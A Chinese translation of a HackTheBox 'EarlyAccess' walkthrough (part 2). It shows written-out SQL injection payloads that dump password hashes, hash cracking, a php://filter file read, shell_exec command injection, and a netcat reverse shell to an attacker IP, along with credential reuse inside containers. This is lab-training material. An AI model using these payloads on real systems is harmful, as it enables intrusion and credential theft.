# 黑客盒子的早期访问—详细演练—第 2 部分

> 原文：<https://infosecwriteups.com/earlyaccess-from-hackthebox-detailed-walkthrough-part-2-ab26956b36de?source=collection_archive---------3----------------------->

展示完成盒子所需的所有工具和技术。

# 机器信息



黑客盒子的早期访问

欢迎学习提前访问演练的第 2 部分。如果你还没看完第 1 部分，你会想先看一下，让你明白我们下面要继续的重点。

到目前为止的故事…

我们首先注册进入一个论坛，发现有一个 XSS 漏洞。最终，我们找到了一种方法来捕获管理员的会话令牌，并使用它来以他们的身份访问门户。让我们下载一个密钥生成器，在破译了它的工作原理后，我们生成了一个潜在密钥列表。

# 验证游戏密钥

在第 1 部分的最后，我们有了一个 Python 密钥生成器，它给了我们一个可以尝试的密钥列表:

```
┌──(root💀kali)-[~/htb/earlyaccess]
└─# python3 keygen.py
KEY10-0A0O0-XPAA1-GAMD0-1294
KEY10-0A0O0-XPAA2-GAMD0-1295
KEY10-0A0O0-XPAA3-GAMD0-1296
KEY10-0A0O0-XPAA4-GAMD0-1297
KEY10-0A0O0-XPAA5-GAMD0-1298
KEY10-0A0O0-XPAA6-GAMD0-1299
<SNIP>
```

我们的列表准备好了，现在回到网站的验证游戏钥匙区域，我们以管理员身份访问。在输入密钥以验证 start Burp 并将其设置为 listening 之前，也请记住将您的浏览器设置为使用 Burp 作为其代理。现在将任何内容粘贴到输入游戏密钥字段，并单击验证密钥:


验证游戏密钥

# 打嗝闯入者

切换到打嗝来查看捕获的请求，将其转发给入侵者。在 Positions 选项卡上，将 key 更改为 fuzz，突出显示它，然后单击右侧的 Add:



使用打嗝入侵者蛮力

现在切换到有效载荷标签，并粘贴在我们的关键列表:



粘贴有效负载列表

最后，转到选项选项卡，将重定向更改为始终:



将跟随重定向设置为总是

现在开始攻击并观察结果:



识别哪个键成功了

我们正在寻找一个返回长度为 14190 的请求，其余的都是 14161。查看底部窗口，查看使用的钥匙。我们从回应中得知这是成功的。

复制并粘贴到验证游戏关键框，这一次你应该会获得成功:



尝试有效密钥

# 注册游戏密钥

现在以管理员身份注销，然后以我们的用户身份重新登录，转到注册密钥部分，将我们的有效密钥粘贴到:



为用户粘贴有效密钥

我们现在可以登录游戏部分:



以用户身份登录游戏区

# 蛇

如果你想试试这个游戏:



玩蛇游戏

记分牌显示了我做得有多差:



记分牌上可怕的分数

# SQLi 开发

这里没有太多其他事情要做，但是回想一下我们在开始时看到的论坛帖子，它说用户 SingleQuoteMan 在记分牌上的名字有问题。这是我们可以使用 SQLi 检索数据的一个线索。切换回我们的用户资料并更改名称:



名称字段中的 SQLi

现在回到记分板并刷新:



记分板上的 SQL 错误

这告诉我们记分板是易受攻击的，但是我们没有得到正确的语法。我为[这个](https://pencer.io/ctf/ctf-thm-sqhell)试衣间深入报道了 SQLi。使用相同的过程，我将我的用户名改为:

```
pencer') union select table_name,null,null from information_schema.tables -- -
```

这让我可以看到数据库中的所有表:



使用 SQLi 查看表

接下来，我通过将用户名改为以下内容来转储用户和密码:

```
pencer') union select name,password,null from users -- -
```

这给了我全部:



查看用户和密码哈希

# JohnTheRipper

让我们用管理散列来破解它:

```
┌──(root💀kali)-[~/htb/earlyaccess]
└─# echo "618292e936625aca8df61d5fff5c06837c49e491" > hash┌──(root💀kali)-[~/htb/earlyaccess]
└─# john hash --wordlist=/usr/share/wordlists/rockyou.txt --format=raw-sha1
Using default input encoding: UTF-8
Loaded 1 password hash (Raw-SHA1 [SHA1 256/256 AVX2 8x])
Warning: no OpenMP support for this hash type, consider --fork=4
Press 'q' or Ctrl-C to abort, almost any other key for status
<HIDDEN>         (?)     
1g 0:00:00:00 DONE (2022-02-03 22:22) 100.0g/s july12..foolish
Use the "--show --format=Raw-SHA1" options to display all of the cracked passwords reliably
Session completed.
```

有了凭据，我们现在可以登录到开发网站:



开发网站登录

在开发网站上没有很多，我们有这个页面与哈希工具:



开发站点哈希工具

这是一个文件工具:



开发网站文件工具

# Feroxbuster

用户 Feroxbuster 查找子文件夹:



扫描子文件夹

动作听起来很有趣，让我们搜索一下:



扫描发现的文件夹内部

# 模糊参数

Fuzzing 找到了一个参数:

```
┌──(root💀kali)-[/usr/share/seclists]
└─# wfuzz --hw 3 -w Discovery/Web-Content/raft-large-words-lowercase.txt http://dev.earlyaccess.htb/actions/file.php?FUZZ
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************
Target: http://dev.earlyaccess.htb/actions/file.php?FUZZ
Total requests: 50
=====================================================================
ID           Response   Lines    Word       Chars       Payload
=====================================================================
000000050:   500        0 L      2 W        32 Ch       "filepath"
```

# 数据泄漏

尝试访问一个已知文件:

```
┌──(root💀kali)-[~/htb/earlyaccess]
└─# curl [http://dev.earlyaccess.htb/actions/file.php?filepath=/etc/passwd](http://dev.earlyaccess.htb/actions/file.php?filepath=/etc/passwd)<h1>ERROR:</h1>For security reasons, reading outside the current directory is prohibited!
```

尝试读取 file.php:

```
┌──(root💀kali)-[~/htb/earlyaccess]
└─# curl http://dev.earlyaccess.htb/actions/file.php?filepath=file.php 

<h2>Executing file:</h2><p>file.php</p><br><h2>Executed file successfully!
```

尝试读取 hash.php:

```
┌──(root💀kali)-[~/htb/earlyaccess]
└─# curl [http://dev.earlyaccess.htb/actions/file.php?filepath=hash.php](http://dev.earlyaccess.htb/actions/file.php?filepath=hash.php)<h2>Executing file:</h2><p>hash.php</p><br><br />
<b>Warning</b>:  Cannot modify header information - headers already sent by (output started at /var/www/earlyaccess.htb/dev/actions/file.php:18) in <b>/var/www/earlyaccess.htb/dev/actions/hash.php</b> on line <b>77</b><br /><h2>Executed file successfully!
```

这给了我们一个文件路径。就像我们在 [Timing](https://www.hackthebox.com/home/machines/profile/421) 上做的一样，我们可以对文件进行 base64 编码来检索它:

```
┌──(root💀kali)-[~/htb/earlyaccess]
└─# curl [http://dev.earlyaccess.htb/actions/file.php?filepath=php://filter/convert.base64-encode/resource=/var/www/earlyaccess.htb/dev/actions/hash.php](http://dev.earlyaccess.htb/actions/file.php?filepath=php://filter/convert.base64-encode/resource=/var/www/earlyaccess.htb/dev/actions/hash.php)<h2>Executing file:</h2>
<p>php://filter/convert.base64-encode/resource=/var/www/earlyaccess.htb/dev/actions/hash.php</p>
<br>PD9waHAKaW5jbHVkZV9vbmNlICIuLi9pbmNsdWRlcy9zZXNzaW9uLnBocCI7CgpmdW5jdGlvbiBoYXNoX3B3KCRoYXN
oX2Z1bmN0aW9uLCAkcGFiAgICBvYl9lbmRfY2xlYW4oKTsKICAgIHJldHVybiAkaGFzaDsKfQoKdHJ5CnsKICAgIGlmKGlz
<SNIP>
```

解码 base64:

```
┌──(root💀kali)-[~/htb/earlyaccess]
└─# echo "PD9waHAKaW5jbHVkZ9zZXNzaW9uLnB<SNIP>ICByZXR1cm47Cn0KPz4=" | base64 -d
```

# 散列文件代码审查

现在我们有 hash.php 的档案要看。有趣的是这个函数:

```
function hash_pw($hash_function, $password)
{
    // DEVELOPER-NOTE: There has gotta be an easier way...
    ob_start();
    // Use inputted hash_function to hash password
    $hash = @$hash_function($password);
    ob_end_clean();
    return $hash;
}
```

我们可以提供密码和散列函数。然后在脚本的下面:

```
if(isset($_REQUEST['hash_function']) && isset($_REQUEST['hash']) && isset($_REQUEST['password']))
{
    // Only allow custom hashes, if `debug` is set
      if($_REQUEST['hash_function'] !== "md5" && $_REQUEST['hash_function'] !== "sha1" && !isset($_REQUEST['debug']))
        throw new Exception("Only MD5 and SHA1 are currently supported!");
        {
                $hash = hash_pw($_REQUEST['hash_function'], $_REQUEST['password']);$_SESSION['verify'] = ($hash === $_REQUEST['hash']);
                header('Location: /home.php?tool=hashing');
                return;
            }
        }
```

# 调试漏洞

如果我们修改请求并发送一个 debug=true 的参数，那么我们可以使用 shell_exec 作为散列函数来执行我们自己的命令。让我们试着列出目录:

```
┌──(root💀kali)-[~/htb/earlyaccess]
└─# curl -s -L -k -X POST -b 'PHPSESSID=7241f80366715e8f4308d92c6837234d' --data-binary 'action=hash&redirect=true&password=ls&hash_function=shell_exec&debug=true' 'http://dev.earlyaccess.htb/actions/hash.php' | grep "Hashed password" -A 5<h3>Hashed password:</h3>
file.php
hash.php
login.php
logout.php
```

反向外壳的时间:

```
┌──(root💀kali)-[~/htb/earlyaccess]
└─# curl -s -L -k -X POST -b 'PHPSESSID=7241f80366715e8f4308d92c6837234d' --data-binary 'action=hash&redirect=true&password=nc+10.10.14.12+1337+-e+/bin/bash&hash_function=shell_exec&debug=true' $'http://dev.earlyaccess.htb/actions/hash.php'
```

# 用户外壳

切换到等待中的 netcat 监听器，查看我们是否已连接:

```
┌──(root💀kali)-[~/htb/earlyaccess]
└─# nc -nlvp 1337
listening on [any] 1337 ...
connect to [10.10.14.12] from (UNKNOWN) [10.10.11.110] 46424
```

将 shell 升级到更有用的版本:

```
python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@webserver:/var/www/earlyaccess.htb/dev/actions$ ^Z
zsh: suspended  nc -nlvp 1337
┌──(root💀kali)-[~/htb/earlyaccess]
└─# stty raw -echo; fg
[1]  + continued  nc -nlvp 1337
www-data@webserver:/var/www/earlyaccess.htb/dev/actions$ export TERM=xterm
www-data@webserver:/var/www/earlyaccess.htb/dev/actions$ stty rows 60 cols 236
```

我们通过 www-data 连接，但是在主文件夹中我们看到了另一个用户。幸运的是，他们重新使用了我们之前破解的管理员密码:

```
www-data@webserver:/var/www/earlyaccess.htb/dev/actions$ ls -lsa /home
4 drwxr-xr-x 2 www-adm www-adm 4096 Feb  3 15:50 www-admwww-data@webserver:/var/www/earlyaccess.htb/dev/actions$ su www-adm
Password: 
www-adm@webserver:/var/www/earlyaccess.htb/dev/actions$
```

在我们的主文件夹中没有用户标志，但是。wgetrc 文件很有趣:

```
www-adm@webserver:/var/www/earlyaccess.htb/dev/actions$ cd /home/www-adm/
www-adm@webserver:~$ ls -lsa
0 lrwxrwxrwx 1 root    root       9 Feb  3 15:50 .bash_history
4 -rw-r--r-- 1 www-adm www-adm  220 Apr 18  2019 .bash_logout
4 -rw-r--r-- 1 www-adm www-adm 3526 Apr 18  2019 .bashrc
4 -rw-r--r-- 1 www-adm www-adm  807 Apr 18  2019 .profile
4 -r-------- 1 www-adm www-adm   33 Feb  3 15:50 .wgetrcwww-adm@webserver:~$ cat .wgetrc 
user=api
password=<HIDDEN>
```

环顾四周，我最终找到了那个 api 用户，并找到了这个:

```
www-adm@webserver:/var/www/html/app$ grep -ir api
Models/API.php:class API extends Model
Models/API.php:     * Verifies a game-key using the API
Models/API.php:     * @return string //Returns response from API
Models/API.php:     $response = Http::get('http://api:5000/verify/' . $key);
```

API.php 文件有一个 URL，我们可以使用 wget 来查看它:

```
www-adm@webserver:/var/www/html/app$ wget http://api:5000
--2022-02-04 16:53:38--  http://api:5000/
Resolving api (api)... 172.18.0.101
Connecting to api (api)|172.18.0.101|:5000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 254 [application/json]
index.html: Permission denied
```

对 index.html 的许可被拒绝。我需要在我的主文件夹中，所以 wget 使用配置文件:

```
www-adm@webserver:/var/www/html/app$ cd ~
www-adm@webserver:~$ wget http://api:5000/
--2022-02-04 17:00:25--  http://api:5000/
Resolving api (api)... 172.18.0.101
Connecting to api (api)|172.18.0.101|:5000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 254 [application/json]
Saving to: ‘index.html’
index.html      100%[============>]     254  --.-KB/s    in 0s      
2022-02-04 17:00:25 (18.3 MB/s) - ‘index.html’ saved [254/254]
```

# 验证 API

查看索引文件:

```
www-adm@webserver:~$ cat index.html 
{"message":"Welcome to the game-key verification API! You can verify your keys via: /verify/<game-key>.
If you are using manual verification, you have to synchronize the magic_num here.
Admin users can verify the database using /check_db.","status":200}
```

让我们获取 check_db 文件:

```
www-adm@webserver:~$ wget http://api:5000/check_db
--2022-02-04 17:03:17--  http://api:5000/check_db
Resolving api (api)... 172.18.0.101
Connecting to api (api)|172.18.0.101|:5000... connected.
HTTP request sent, awaiting response... 401 UNAUTHORIZED
Authentication selected: Basic
Connecting to api (api)|172.18.0.101|:5000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 8708 (8.5K) [application/json]
Saving to: ‘check_db’
check_db     100%[==============>]   8.50K  --.-KB/s    in 0s      
2022-02-04 17:03:17 (108 MB/s) - ‘check_db’ saved [8708/8708]
```

看它的内容是 json，所以复制到 Kali 并使用 jq 来读取它:

```
┌──(root💀kali)-[~/htb/earlyaccess]
└─# jq '.' check_db                                                    
{
  "message": {
    "AppArmorProfile": "docker-default",
    "Args": [
      "--character-set-server=utf8mb4",
      "--collation-server=utf8mb4_bin",
      "--skip-character-set-client-handshake",
      "--max_allowed_packet=50MB",
      "--general_log=0",
      "--sql_mode=ANSI_QUOTES,ERROR_FOR_DIVISION_BY_ZERO,IGNORE_SPACE,NO_ENGINE_SUBSTITUTION,NO_ZERO_DATE,NO_ZERO_IN_DATE,PIPES_AS_CONCAT,REAL_AS_FLOAT,STRICT_ALL_TABLES"
    ],
    "Config": {
      "AttachStderr": false,
      "AttachStdin": false,
      "AttachStdout": false,
      "Cmd": [
<SNIP>
```

这是一个很长的文件，但是 grep for password 找到了一些凭证:

```
┌──(root💀kali)-[~/htb/earlyaccess]
└─# jq '.' check_db | grep -i password
        "MYSQL_PASSWORD=drew",
        "MYSQL_ROOT_PASSWORD=<HIDDEN>"
```

# Drew SSH 访问

让我们通过 SSH 为用户 drew 尝试一下:

```
┌──(root💀kali)-[~/htb/earlyaccess]
└─# ssh drew@earlyaccess.htb       
You have mail.
Last login: Sun Sep  5 15:56:50 2021 from 10.10.14.6
drew@earlyaccess:~$
```

我们进去了。我注意到它说我们有邮件，让我们检查一下:

```
drew@earlyaccess:~$ cat /var/mail/drew
To: <drew@earlyaccess.htb>
Subject: Game-server crash fixes
From: game-adm <game-adm@earlyaccess.htb>
Date: Thu May 27 8:10:34 2021
Hi Drew!
Thanks again for taking the time to test this very early version of our newest project! We have received your feedback and implemented a healthcheck that will automatically restart the game-server if it has crashed (sorry for the current instability of the game! We are working on it...) 
If the game hangs now, the server will restart and be available again after about a minute. If you find any other problems, please don't hesitate to report them!
Thank you for your efforts!
Game-adm (and the entire EarlyAccess Studios team)
```

它告诉我们，游戏服务器将自动重启，如果它挂起或崩溃。我还在 drew 的主文件夹中找到了这个 ssh 文件:

```
drew@earlyaccess:~$ cat .ssh/id_rsa.pub 
ssh-rsa AAAAB3NzaC1y<SNIP>c2myZjHXDw77nvettGYr5lcS8w== game-tester@game-server
```

我们可以用它作为游戏测试者登录游戏服务器。看看 IP，我们看到了另一个容器:

```
drew@earlyaccess:~$ ip n 2>/dev/null
172.19.0.2 dev br-b052cf9302f7 lladdr 02:42:ac:13:00:02 STALE
172.18.0.2 dev br-6489f03765ae lladdr 02:42:ac:12:00:02 STALE
172.18.0.102 dev br-6489f03765ae lladdr 02:42:ac:12:00:66 STALE
10.10.10.2 dev ens160 lladdr 00:50:56:b9:72:c3 REACHABLE
```

# 游戏服务器

让我们登录到那里:

```
drew@earlyaccess:~$ ssh game-tester@172.19.0.2
game-tester@game-server:~$
```

是时候进行一些枚举了。查看根文件夹:

```
game-tester@game-server:~$ ls -lsa /
4 drwxrwxr-t   2 root 1000 4096 Feb  4 17:57 docker-entrypoint.d
4 -rwxr-xr--   1 root root  141 Aug 19 14:15 entrypoint.sh
```

看看入口点脚本:

```
game-tester@game-server:~$ cat /entrypoint.sh 
#!/bin/bash
for ep in /docker-entrypoint.d/*; do
if [ -x "${ep}" ]; then
    echo "Running: ${ep}"
    "${ep}" &
  fi
done
tail -f /dev/null
```

这个脚本归 root 所有，运行 docker-entrypoint.d 文件夹中的任何东西。在那里我们看到一个脚本，让我们看看它的内容:

```
game-tester@game-server:~$ cat /docker-entrypoint.d/node-server.sh  
service ssh start
cd /usr/src/app
# Install dependencies
npm install
sudo -u node node server.js
```

名为 server.js 的脚本正在/usr/src/app 文件夹中运行。查看该脚本，我们看到它是一个井字游戏，并且正在侦听端口 9999。有一个自动播放功能，让我们指定要播放多少回合，让我们从早期访问服务器上的 SSH 会话中尝试一下:

```
drew@earlyaccess:~$ curl -X POST -d "rounds=3" http://172.19.0.4:9999/autoplay 
<html>
  <body>
    <h1>Starting autoplay with 3 rounds</h1>
    <h4>Stats:</h4>
    <p>Wins: 1</p>
    <p>Losses: 2</p>
    <p>Ties: 0</p>
    <a href="/autoplay">Go back</a>
  </body>
</html>
```

在脚本中，我们还看到了这一点:

```
// Stop execution if too many rounds are specified (performance issues may occur otherwise)
  if (req.body.rounds > 100)
  {
    res.sendStatus(500);
    return;
  }
```

# 游戏服务器崩溃

因此，要在游戏服务器上获得根，我们需要一种使服务器崩溃的方法，然后当它重新启动时，我们需要在/docker-entrypoint.d/文件夹中有一个带有反向 shell 的文件，这样它就可以执行了。

在 gameserver 上我们看到这个:

```
game-tester@game-server:~$ ls -l /
drwxrwxr-t   2 root 1000 4096 Feb  6 11:38 docker-entrypoint.d
```

在早期访问服务器上，我们看到了这个:

```
drew@earlyaccess:~$ ls -l /opt
total 8
drwx--x--x 4 root root 4096 Jul 14  2021 containerd
drwxrwxr-t 2 root drew 4096 Feb  6 12:39 docker-entrypoint.d
```

